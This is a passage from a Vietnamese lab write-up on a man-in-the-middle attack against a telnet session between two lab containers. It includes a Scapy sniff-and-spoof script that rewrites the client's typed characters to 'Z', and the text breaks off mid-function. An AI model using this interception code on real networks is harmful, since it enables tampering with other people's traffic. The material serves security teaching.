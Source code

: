 - Step 4: Khởi động MITM attack. Mục đích của task này đó là thay đổi data telnet giữa A và B. Giả sử A là client và kết nối đến B là server, khi A gõ bất cứ từ gì thì cũng sẽ tạo ra một gói TCP với nội dung là từ vừa gõ và gửi đến cho B. Bây giờ attacker sẽ ngăn chặn data lại và sửa data đó thành chữ Z. Bằng cách này thì dù A có gõ gì đi chăng nữa màn hình vẫn sẽ chỉ hiện Z mà thôi.

    - Yêu cầu đầu tiên đó là kết nối telnet giữa A và B ở mode `ip_forward = 1` sau khi kết nối xong thì chuyển mode `ip_forward = 0`, gõ vài từ ở phía terminal A và cho kết quả.
        - Đầu tiên ta kết nối telnet giữa A và B ở mode `ip_forward=1`

        ![](https://i.imgur.com/xZoaj0B.png)

        - Tiếp đến ta chuyển mode `ip_forward=0` thì kết nối telnet sẽ bị attacker chặn lại ở giữa, bây giờ dù ta có gõ gì thì màn hình vẫn sẽ không xuất hiện gì. Vì khi `ip_forward=0` tức là tắt tính năng forwarding nên sẽ không nhận được gói tin phản hồi. Cho đến khi ta chuyển `ip_forward=1` thì những gì ta vừa gõ lúc trước sẽ xuất hiện hoặc chờ attacker tạo ra một gói tin phản hồi.
    - Yêu cầu tiếp theo, thực hiện chương trình sniff&spoof ở phía attacker để bắt các gói tin gửi từ A đến B và thay đổi thông tin. Còn gói tin phản hồi từ B về A sẽ giữ nguyên. 
    Đề bài đã cho sẵn chúng ta sườn code sniff&spoof, bây giờ chúng ta chỉ việc thực hiện thay đổi data từ A đến B và filter một cách phù hợp để nó không ảnh hưởng đến hiệu suất nữa là mọi việc được giải quyết. Cụ thể code sẽ thực hiện như sau :

    ```python=
    #!/usr/bin/env python3
    from scapy.all import *

    IP_A = "10.9.0.5"
    MAC_A = "02:42:0a:09:00:05"

    IP_B = "10.9.0.6"
    MAC_B = "02:42:0a:09:00:06"

    IP_M = "10.9.0.105"
    MAC_M = "02:42:0a:09:00:69"

    print("Start MITM attack ...")

    def spoof_pkt(pkt):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B: 
             newpkt = IP(bytes(pkt[IP]))
             del(newpkt.chksum)
             del(newpkt[TCP].payload)
             del(newpkt[TCP].chksum)

             if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                print("data : ",data, "length : ",len(data))
                # Nếu bạn chỉ muốn thay thế các các ký tự từ a->z , từ A->Z và các số từ 0-9
                newdata = re.sub('[0-9a-zA-Z]', 'Z', data.decode())
                # Nếu bạn muốn tất cả các phím nhập vào đều được thay đổi thành Z 
                # newdata = 'Z'*len(data)
                send(newpkt/newdata)
             else: 
                 send(newpkt)
